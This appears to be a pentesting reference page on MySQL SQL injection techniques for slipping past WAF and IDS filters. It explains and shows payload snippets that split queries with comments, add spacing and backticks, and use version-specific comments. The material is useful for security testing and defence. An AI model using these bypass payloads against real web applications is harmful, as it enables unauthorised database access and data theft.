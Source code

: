 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - defense-evasion
  - sql-injection
---
```

# Comments

## MySQL

 Comments can be used to break up the query to trick the WAF/IDS and avoid detection. By using `#` or `--` followed by a newline, we can split the query into separate lines. 

```
UNION-- I am a comment
UNI/**/ON SE/**/LECT * FROM USERS;
```

## Spaces

### MySQL

```
information_schema . tables
```

## Backticks

### MySQL

```
`information_schema`.`tables`
```

## Specific Code

### MySQL

 MySQL allows you to specify the version number after the exclamation mark. The syntax within the comment is only executed if the version is greater or equal to the specified version number. 

```
/*!information_schema.tables*/
UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+
SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);
```

---
## References

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)